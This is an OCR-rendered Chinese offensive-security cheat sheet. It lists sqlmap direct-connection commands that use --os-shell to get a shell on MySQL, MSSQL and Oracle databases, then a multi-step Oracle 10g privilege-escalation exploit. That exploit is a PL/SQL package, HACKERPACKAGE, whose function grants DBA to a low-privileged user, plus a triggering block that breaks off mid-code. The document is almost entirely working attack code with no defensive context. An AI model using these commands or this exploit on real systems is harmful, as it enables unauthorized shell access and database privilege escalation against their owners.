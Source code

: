 # SQMAP GETshell
##
直连数据库getshell:
```
-d "mysql://<username>:<password>@<target-ip>:<target-port>/<dbname>" --os-shell        直连mysql数据库获得shell
-d "mssql://<username>:<password>@<target-ip>:<target-port>/<dbname>" --os-shell        直连mssql数据库获得shell
-d "oracle://<username>:<password>@<target-ip>:<target-port>/<sid>" --os-shell          直连oracle数据库获得shell(需要使用python安装两个模块,sqlalchemy和cx_Oracle,暂未实现)
```

# Oracle
- Oracle 10g 经典提权漏洞(低权限数据库用户提权到dba)
    - 影响范围
        oracle版本 < 10.2.0.4
    - 查看当前角色权限
        select * from session_roles;
    - 利用漏洞执行权限提升(第一步)
        ```sql
        Create or REPLACE
        PACKAGE HACKERPACKAGE AUTHID CURRENT_USER
        IS
        FUNCTION ODCIIndexGetMetadata (oindexinfo SYS.odciindexinfo,P3 VARCHAR2,p4 VARCHAR2,env
        SYS.odcienv)
        RETURN NUMBER;
        END;
        /
        ```
    - 利用漏洞执行权限提升(第二步)
        需将 <DB_USERNAME> 替换成当前低权限的数据库用户名
        ```sql
        Create or REPLACE PACKAGE BODY HACKERPACKAGE
        IS
        FUNCTION ODCIIndexGetMetadata (oindexinfo SYS.odciindexinfo,P3 VARCHAR2,p4 VARCHAR2,env
        SYS.odcienv)
        RETURN NUMBER
        IS
        pragma autonomous_transaction;
        BEGIN
        EXECUTE IMMEDIATE 'GRANT DBA TO <DB_USERNAME>';
        COMMIT;
        RETURN(1);
        END;
        END;
        /
        ```
    - 利用漏洞执行权限提升(第三步)
        需将 <DB_USERNAME> 替换成当前低权限的数据库用户名
        ```sql
        DECLARE
        INDEX_NAME VARCHAR2(200);
        INDEX_SCHEMA VARCHAR2(200);
        TYPE_NAME VARCHAR2(200);
        TYPE_SCHEMA VARCHAR2(200);
        VERSION VARCHAR2(200);
        NEWBLOCK PLS_INTEGER;
        GMFLAGS NUMBER;
        v_Return VARCHAR2(200);
        BEGIN
        INDEX_NAME := 'A1';